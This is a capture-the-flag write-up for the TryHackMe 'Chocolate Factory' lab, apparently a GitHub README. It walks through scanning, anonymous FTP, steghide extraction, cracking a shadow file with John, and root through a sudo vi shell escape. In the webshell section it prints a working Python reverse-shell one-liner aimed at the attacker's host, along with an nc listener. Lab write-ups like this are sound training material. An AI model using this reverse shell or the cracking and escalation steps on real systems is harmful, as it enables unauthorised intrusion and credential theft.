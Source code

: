 # THM-Chocolate-Factory-WriteUp

Write up for https://tryhackme.com/room/chocolatefactory (Visit https://tryhackme.com/ for more)

# Setting up and information gathering

For this CTF I've set the record <BOX-IP> wonka in /etc/hosts.
  
By running syn scan (default mode when run as root) with nmap (`nmap -A wonka`) I found:
  FTP Server on port 21 allowing Anonymous login
  SSH Open port on port 22
  HTTP server on port 80
  Several open ports with the same hint ('Look somewhere else')
  A port with indicating a downloadable executable
  
 # Question #1
  
 By downloding the file indicated on the previous port and executing it I was asked a name, I tried several inputs with no success so further inspected the executable with strings (`strings key_rev_key`) and found this string:
 
  ``
   congratulations you have found the key:   
b'[*CENSORED*]'
``
  
 which turns out to be the answer to the first question
  
 # Question #2
  
Second question required the FTP connection:
  
  ```
└─# ftp wonka   
Connected to wonka.
220 (vsFTPd 3.0.3)
Name (wonka:kali): Anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 1000     1000       208838 Sep 30  2020 gum_room.jpg
226 Directory send OK.
ftp> get gum_room.jpg
local: gum_room.jpg remote: gum_room.jpg
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for gum_room.jpg (208838 bytes).
226 Transfer complete.
```
The donloaded file is a simple jpeg representing some bubbles, no clues in the pic
I was able to exctract a file with steghide with a blank password
  
 ```
  └─# steghide extract -sf gum_room.jpg                                                                                                                 
Enter passphrase: 
wrote extracted data to "b64.txt".
```
It is an base64 encoded file so I decoded it (`base64 -d b64.txt > b64dec.txt`) to reveal what is seems to be a /etc/shadow file
John (`john -w=/usr/bin/wordlist/rockyou.txt b64dec.txt`) was able to crack charlie's password

#Question #3
  
The password found is need to login in the HTTP server on port 80 which leads to a webshell (I tried to use it for ssh into the server but with no success)

Ncat and bash reverse shells was not exploitable but I was able to get a connection by using python reverse shell
So I started a listener on port 4242 on my machine (`nc -lvnp 4242`) and send this payload to the web shell `export RHOST="<MY-THM-IP>";export RPORT=4242;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
`
  
In /home/charlies we found two interesting files: teleport adn teleport.pub which are ssh keys pair
I copied teleport (private key) on my host and set the right permissions (`chmod 600 teleport`)
Then I sshed in to the server as charlie by running `ssh charlie@wonka -i teleport` accomplishing the third question
  
# Question #4
  
Just `cat user.txt` placed in /home/charlie

# Question #5
  
Checking charlie's sudo permissions I found vi , a text editor which permits to run commands with the process permissions.

So I ran `sudo /usr/bin/vi` then in the editor `:! ls /root` which reveals a file named 'root.py`, once again in the editor I typed `:! python /root/root.py`, I was asked a key so I've inserted the key from the first question, a message told me I was now the owner of the Chocolate Factory and give me the answer to the last question

  
  
